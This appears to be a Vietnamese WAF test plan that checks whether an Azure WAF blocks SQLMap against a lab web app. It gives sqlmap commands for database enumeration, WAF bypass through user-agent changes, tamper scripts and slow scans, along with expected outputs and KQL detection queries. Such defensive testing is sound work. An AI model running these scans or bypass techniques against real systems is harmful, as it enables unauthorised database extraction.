

# 13 - SQLMap Test

## TC-SQLMAP: Automated SQL Injection Scanner Testing

---

## Tổng quan

| Thuộc tính | Chi tiết |
|-----------|---------|
| **Objective** | Xác minh WAF chặn SQLMap automated scanning |
| **Tool** | SQLMap 1.7+ (Kali Linux) |
| **WAF Rules** | Custom Rule (BlockSQLMapUA) + CRS 942xxx + 913xxx |
| **Expected Result** | SQLMap bị block hoàn toàn, không extract được data |
| **Risk** | Critical — SQLMap có thể dump toàn bộ database |

---

## 1. SQLMap Overview



---

## 2. TC-SQLMAP-01: SQLMap Scan Cơ bản (Không có WAF)

### Mục đích

Chạy SQLMap **trước khi bật WAF** (hoặc ở Detection mode) để chứng minh vulnerability tồn tại → baseline.

> ⚠️ **Lưu ý**: Bước này chỉ thực hiện trên môi trường lab. KHÔNG bao giờ test trên hệ thống production.

### Test Steps — Phase 1: Baseline (WAF Detection Mode / Disabled)

```bash
export TARGET="http://40.x.x.x"

# Bước 1: Kiểm tra target available
sqlmap -u "$TARGET/rest/products/search?q=test" \
  --batch \
  --level=1 \
  --risk=1 \
  --timeout=10 \
  -v 1 \
  2>&1 | head -50

# Bước 2: Scan basic SQL injection
sqlmap -u "$TARGET/rest/products/search?q=test" \
  --batch \
  --dbs \
  --level=2 \
  --risk=2 \
  --timeout=15 \
  --output-dir=/tmp/sqlmap-baseline \
  2>&1 | tee tc_sqlmap_01_baseline.txt
```

**Expected Output (không có WAF):**
```
[INFO] GET parameter 'q' is vulnerable
[INFO] the back-end DBMS is SQLite
available databases:
[*] main
```

---

## 3. TC-SQLMAP-01b: SQLMap Scan với WAF Enabled (Prevention Mode)

### Test Steps — Phase 2: With WAF

```bash
# Bước 1: SQLMap với default User-Agent (bị block bởi Custom Rule)
sqlmap -u "$TARGET/rest/products/search?q=test" \
  --batch \
  --dbs \
  --level=3 \
  --risk=3 \
  --timeout=10 \
  --output-dir=/tmp/sqlmap-waf-test \
  2>&1 | tee tc_sqlmap_01_waf.txt

# SQLMap sẽ gửi request với User-Agent: sqlmap/1.7.x
# Custom Rule sẽ block ngay lập tức
```

**Expected Output (với WAF):**
```
[WARNING] the web server responded with an HTTP error code (403)
[CRITICAL] all tested parameters do not appear to be injectable
[WARNING] WAF/IPS detected!
```

### Capture Evidence

```bash
# Xem full SQLMap output
cat tc_sqlmap_01_waf.txt

# Count 403 responses
grep -c "403" tc_sqlmap_01_waf.txt
```

### WAF Log Evidence

```kusto
AzureDiagnostics
| where Category == "ApplicationGatewayFirewallLog"
| where action_s == "Blocked"
| where Message contains "sqlmap" or ruleId_s startswith "913"
| project TimeGenerated, clientIp_s, requestUri_s, ruleId_s, Message
| order by TimeGenerated desc
| take 20
```

---

## 4. TC-SQLMAP-02: SQLMap với WAF Bypass Flags

### Mô tả

SQLMap có các flags cố gắng bypass WAF — kiểm tra xem WAF có đủ mạnh không.

### Test Steps

```bash
# Bước 1: Thay đổi User-Agent (bypass Custom Rule)
sqlmap -u "$TARGET/rest/products/search?q=test" \
  --batch \
  --dbs \
  --level=3 \
  --risk=3 \
  --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
  --timeout=15 \
  --output-dir=/tmp/sqlmap-bypass-ua \
  2>&1 | tee tc_sqlmap_02_bypass_ua.txt

# Bước 2: Dùng tamper scripts để obfuscate payload
sqlmap -u "$TARGET/rest/products/search?q=test" \
  --batch \
  --dbs \
  --level=3 \
  --risk=3 \
  --tamper=space2comment,charencode,randomcase \
  --user-agent="Mozilla/5.0 (compatible)" \
  --timeout=15 \
  --output-dir=/tmp/sqlmap-bypass-tamper \
  2>&1 | tee tc_sqlmap_02_bypass_tamper.txt

# Bước 3: Slow scan với delay (avoid rate limiting)
sqlmap -u "$TARGET/rest/products/search?q=test" \
  --batch \
  --dbs \
  --level=2 \
  --risk=2 \
  --delay=2 \
  --safe-freq=3 \
  --safe-url="$TARGET/" \
  --user-agent="Mozilla/5.0 (Windows NT 10.0)" \
  --timeout=20 \
  --output-dir=/tmp/sqlmap-bypass-slow \
  2>&1 | tee tc_sqlmap_02_bypass_slow.txt
```

### Tamper Scripts Explanation

| Tamper Script | Chức năng | CRS Bypass? |
|--------------|-----------|------------|
| `space2comment` | Thay space bằng `/**/` | ❌ WAF decode |
| `charencode` | URL encode characters | ❌ WAF decode |
| `randomcase` | Đổi case ngẫu nhiên | ❌ WAF normalize |
| `base64encode` | Base64 encode | ❌ WAF không decode body base64 |
| `between` | Thay `>` với `BETWEEN` | ⚠️ Có thể bypass một số rules |
| `hex2char` | Dùng HEX encoding | ❌ WAF decode |


---

## 5. So sánh Kết quả Trước/Sau WAF

### Bảng So sánh

| Tiêu chí | Không có WAF | Có WAF (Prevention) |
|---------|-------------|-------------------|
| **SQLMap phát hiện vuln?** | ✅ Có (q parameter vulnerable) | ❌ Không (all blocked) |
| **Database enum?** | ✅ main (SQLite) | ❌ Blocked |
| **Table enum?** | ✅ Users, Products, etc. | ❌ Blocked |
| **Data dump?** | ✅ email, password hash | ❌ Blocked |
| **HTTP responses** | 200 OK | 403 Forbidden |
| **Scan duration** | 2-5 phút | < 30 giây (timeout) |
| **WAF log entries** | 0 | 50-200+ entries |

### SQLMap Output Comparison

**Không có WAF (expected baseline):**
```
[INFO] GET parameter 'q' appears to be 'AND boolean-based blind' injectable
[INFO] GET parameter 'q' is 'Generic UNION query' injectable
[INFO] the back-end DBMS is SQLite
[INFO] fetching database names
available databases [1]:
[*] main

[INFO] fetching tables for database 'main'
Database: main
[8 tables]
+------------------------+
| Addresses              |
| BasketItems            |
| Baskets                |
| Captchas               |
| Complaints             |
| Feedbacks              |
| Products               |
| Users                  |
+------------------------+
```

**Với WAF (expected):**
```
[WARNING] the web server responded with an HTTP error code (403) which could interfere with the results
[CRITICAL] all tested parameters do not appear to be injectable
[WARNING] HTTP error codes detected during run:
403 (Forbidden) - 47 times
```

---

## 6. Phân tích WAF Logs — SQLMap Attack

### Query: SQLMap Detection Rate

```kusto
// Đếm tổng requests bị block từ SQLMap scan
AzureDiagnostics
| where Category == "ApplicationGatewayFirewallLog"
| where action_s == "Blocked"
| where TimeGenerated > ago(1h)
| summarize
    TotalBlocked = count(),
    ByRule = makeset(ruleId_s)
    by clientIp_s
| order by TotalBlocked desc
```

### Query: Timeline của SQLMap Attack

```kusto
AzureDiagnostics
| where Category == "ApplicationGatewayFirewallLog"
| where action_s == "Blocked"
| where TimeGenerated > ago(2h)
| summarize RequestCount = count() by bin(TimeGenerated, 1m)
| render timechart
    with (title="SQLMap Attack Timeline - Requests per Minute")
```

### Query: Rules Triggered bởi SQLMap

```kusto
AzureDiagnostics
| where Category == "ApplicationGatewayFirewallLog"
| where action_s == "Blocked"
| where TimeGenerated > ago(1h)
| summarize Count = count() by ruleId_s, Message
| order by Count desc
| take 15
```

---

## 7. Tổng kết SQLMap Tests

### Bảng Kết quả

| TC ID | Test | Expected | Actual | Status |
|-------|------|----------|--------|--------|
| TC-SQLMAP-01 | Default SQLMap scan | All blocked | *(điền)* | ⬜ |
| TC-SQLMAP-02a | Custom User-Agent bypass | Still blocked by CRS | *(điền)* | ⬜ |
| TC-SQLMAP-02b | Tamper scripts | Still blocked | *(điền)* | ⬜ |
| TC-SQLMAP-02c | Slow scan with delay | Still blocked | *(điền)* | ⬜ |

### Evidence Summary

```
tc_sqlmap_01_baseline.txt   → SQLMap kết quả KHÔNG có WAF
tc_sqlmap_01_waf.txt        → SQLMap kết quả CÓ WAF (tất cả 403)
tc_sqlmap_02_bypass_ua.txt  → Bypass User-Agent attempt
tc_sqlmap_02_bypass_tamper.txt → Tamper scripts attempt
```

---

*Tài liệu tiếp theo: [14-brute-force-test.md](14-brute-force-test.md)*
